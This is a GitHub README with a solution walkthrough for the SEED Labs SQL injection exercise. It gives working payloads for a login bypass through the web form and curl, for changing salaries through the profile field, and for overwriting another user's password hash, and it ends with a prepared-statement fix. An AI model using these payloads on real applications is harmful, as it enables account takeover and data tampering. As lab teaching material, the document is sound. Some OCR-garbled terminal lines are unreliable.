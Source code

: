 # SEED-SQL-Injection-Lab
SEED SQL Injection Lab complete solution Code and Screenshots added in PDF file. 

Lab Tasks
Task 1: Get Familiar with SQL Statements 

$ mysql -u root -pseedubuntu

mysql> show databases;

mysql> use Users;


mysql> show tables;

mysql>  select * from credential where name = ‘Alice’;

 
 

Task 2.1: SQL Injection Attack from webpage.

Type “ admin’ # ” in the Username field and leave empty the password field. 
 
Task 2.2: SQL Injection Attack from command line.

Write Code on Terminator in Seed Lab:

curl 'http://www.seedlabsqlinjection.com/unsafe_home.php?username=Admin%27%20%23';
 
 

Task 3.1: Modify your own salary.
As shown in the Edit Profile page, employees can only update their nicknames, emails, addresses, phone numbers, and passwords; they are not authorized to change their salaries. Assume that I am Alice. I want to increase my own salary by exploiting the SQL injection vulnerability in the Edit-Profile page. I know that salaries are stored in a column called salary.

I will use the statement ine the NickName field: 

', Salary=10000 where name = ‘Alice’ #
 
Task 3.2: Modify other people’ salary.

I want to reduce Boby’s salary to 1 dollar.

Use statement in Alice’s profile editor: ', Salary=1 where name = ‘Boby’ # 
 
Task 3.3: Modify other people’ password.

I want to change Boby’s password that I can log into his account and do further damage.
It uses SHA1 hash function to generate the hash value of password.

Use the following statement:

echo -n “tedwashere” | sha1sum
 

Copy the code you get and paste in Alice’s profile editor as the following statement:

', password=(code you copied) where name = ‘Boby’ #
  
Task 4: Countermeasure — Prepared Statement.


seed@VM:-$ /var/www/SQLInjection/ bash: /var/www/SQL Injection/: Is a directory

seed@VM:-$ cd /var/www/SQLInjection/ 

seed@VM: .../SQLInjections ls

seed@VM:.../SQLInjections subl safe_home.php

seed@VM:.../SQLInjection$ subl unsafe_home.php

After exicute these codes copy the code from line 70 to 80 in SAFE_HOME_PHP and paste over the line 70 to 100 in UNSAFE_HOME_PHP file then save the code file.
after saving run these codes in terminal.

[10/30/21] seed@VM: .../SOLInjection$ cd .. 

[10/30/21] seed@VM:.../www$ cd..

[10/30/21] seed@VM:/var$ cd

[10/30/21] 11seed@VM:/$ sudo service apache2 reset

[10/30/211seed@VM:/$

 
   
 
